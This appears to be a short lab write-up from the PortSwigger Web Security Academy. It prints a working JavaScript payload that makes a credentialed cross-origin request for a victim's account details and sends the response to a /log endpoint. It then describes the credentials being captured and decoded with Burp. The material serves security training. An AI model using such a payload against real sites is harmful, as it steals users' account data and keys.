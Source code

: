 1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	**_The script does the following:_**   
		 Create an XMLHttpRequest instance.   
		 Set the event handler that will be called when the response is received.   
		 opening a GET request to the URL to retrieve account details   
		 Sending cookies and HTTP authentication information in the request   
		 Sending the request   
		 Event handler function called when a response is received from the server   
		 forwarding the current page to a log file with the received response text as parameter   

2.After supposedly executing the script on victims machine his credentials get logged:   

![grafik](https://user-images.githubusercontent.com/62068604/235905598-e0c9da27-2a71-47e4-9d20-2c2bb64555c8.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
